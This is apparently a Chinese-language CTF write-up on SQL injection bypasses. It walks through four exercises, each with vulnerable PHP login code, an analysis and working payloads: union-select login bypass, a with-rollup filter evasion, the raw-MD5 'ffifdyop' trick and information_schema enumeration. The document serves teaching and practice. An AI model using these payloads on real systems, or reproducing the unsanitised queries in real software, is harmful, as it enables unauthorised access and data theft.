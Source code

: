 ### SQL注入绕过

#### 例题1
```php
<?php
if($_POST[user] && $_POST[pass]) {
	//省略了mysql连接过程
    $user = $_POST[user];
    $pass = md5($_POST[pass]);

    $sql = "select pw from php where user='$user'";
    #使用union时，查询出来的列名是第一个被查询的表对应的列名
    $query = mysql_query($sql);
    if (!$query) {
        printf("Error: %s\n", mysql_error($conn));
        exit();
    }
    $row = mysql_fetch_array($query, MYSQL_ASSOC);
    
    if (($row[pw]) && (!strcasecmp($pass, $row[pw]))) {
        echo "<p>Logged in! Key:************** </p>";
    }
    else {
        echo("<p>Log in failure!</p>");
    }
}
?>
```
#### 分析
该文件接受user和pass两个参数，通过构造合适的sql语句进行SQL注入成功登录即可获得key。代码中没有过滤任何SQL语句，因此可以有多种方法进行payload的构造。

#### payload
```
user=' union select md5(1)#
pass=1 
```

#### 例题2
>题目地址:http://www.shiyanbar.com/ctf/1940
#### 代码
```php
<?php
error_reporting(0);
function AttackFilter($StrKey,$StrValue,$ArrReq){  
    if (is_array($StrValue)){
        $StrValue=implode($StrValue);
    }
    if (preg_match("/".$ArrReq."/is",$StrValue)==1){   
        print "水可载舟，亦可赛艇！";
        exit();
    }
}
//执行的开始部分
$filter = "and|select|from|where|union|join|sleep|benchmark|,|\(|\)";
foreach($_POST as $key=>$value){ 
    AttackFilter($key,$value,$filter);
}

//连接语句省略
$sql="SELECT * FROM interest WHERE uname = '{$_POST['uname']}'";
$query = mysql_query($sql); 
if (mysql_num_rows($query) == 1) { 
    $key = mysql_fetch_array($query);
    if($key['pwd'] == $_POST['pwd']) {
        print "CTF{XXXXXX}";
    }else{
        print "亦可赛艇！";
    }
}else{
	print "一颗赛艇！";
}
mysql_close($con);
?>
```
#### 分析
该PHP文件接收两个参数，uname和pwd。文件中包含了对一些SQL关键字和操作符的过滤，没有限制limit,with,rollup,offset等关键字。

根据代码中的条件，只有查询结果中只有1行，且输入密码必须和查询的密码对应才可以得到flag。

这里可以借助with rollup操作来实现SQL注入，该关键字可以将行中每一列的结果进行汇总，如果是数字，得到数字的和；如果是非数字字符串，得到0；

#### payload
```html
uname=1' or 1=1 group by pwd with rollup limit 1 offset 2#
pwd=
<!--pwd为空，uname的最终显示起始行是试出来的-->
<!--payload解释:得到所有用户名和密码，将密码汇总，选出null对应的行-->
```

#### 参考文章
with rollup
>https://www.cnblogs.com/phpper/p/9384614.html

limit宇offset
>https://blog.csdn.net/l1212xiao/article/details/80520330

#### 例题3
>http://ctf5.shiyanbar.com/web/houtai/ffifdyop.php,后台登录

#### 代码

```php
$password=$_POST['password'];
$sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
$result=mysqli_query($link,$sql);
if(mysqli_num_rows($result)>0){
    echo 'flag is :'.$flag;
}
else{
    echo '密码错误!';
}
```

#### 分析
该文件只接收一个password参数。如果想得到flag，必须保证密码的MD5值和用户输入的MD5值相同。值得注意的是，该处的MD5函数与常规的用法不太一致，其第二个参数为true，表示返回16字节的原始二进制格式的内容，而不是其对应的一个32位的数字字符串。

因此，如果产生的二进制内容在显示为字符串时，如果能出现'or'axx（a为一个非0的数字，x为任意字符）,则可以构造一个恒为真的SQL语句。

比较巧的是，该文件的文件名经过加密后正好可以产生一个比较合适的字符串。
```txt
'or'6�]��!r,��b
```
#### payload

```txt
password=ffifdyop
```

#### 例题4
>tips:非常适合新手的一道题，题目来自于攻防世界web进阶题newscenter

#### 说明
此题无代码，需要盲注。

测试中发现报错不会有回显，但是也没有过滤任何常用的SQL语句，不是难题。

#### 分析
这里准备采用联合查询的方式获得flag，首先构造了1个payload
```txt
' and 0 union select 1#
```
在firefox下直接返回一个空白页，猜测可能的原因是联合查询的列数不匹配导致查询结果出错。

一点点的增加查询的列数，发现列数为3时可以。
```txt
' and 0 union select 1,2,3#
```
![行数测试](image\column_test_3.png)
接下来查询表名
```txt
' and 0 union select 1,2,table_name from information_schema.tables#
```
![查询表名](image\column_name.png)
得到了表名称secret_table
接下来查询列名
```txt
' and 0 union select 1,2,column_name from information_schema.columns where table_name='secret_table'#
```
得到了列名fl4g

查询fl4g中的内容即可得到flag
```txt
' and 0 union select 1,2,fl4g from secret_table#
```

#### 拓展
这里拓展一些关于select后面加数字的一些内容。

#### SQL注入常用函数

1.database()

该函数可以显示当前正在使用的数据库库名。

2.mid()

该函数可以从指定的字段中提取出字段的内容。

mid(column_name,start[,length])
```sql
select mid(name,1) from user;
/*start要求最小从1开始*/
/*从password这一列的每一个元素的第一个字符开始截取*/
/*注意得到的是整整一列的内容*/
```
eg:

select * from user;
| name | password |
| ------ | ------ |
| admin | admin |
| root | root |

select mid(name,1,2);

|name|
|---|
|ad|
|ro|

3.ord()

该函数用于获得某个字符串最开始的字符的ASCII值。

4.ascii()

目前未发现与ord的不同。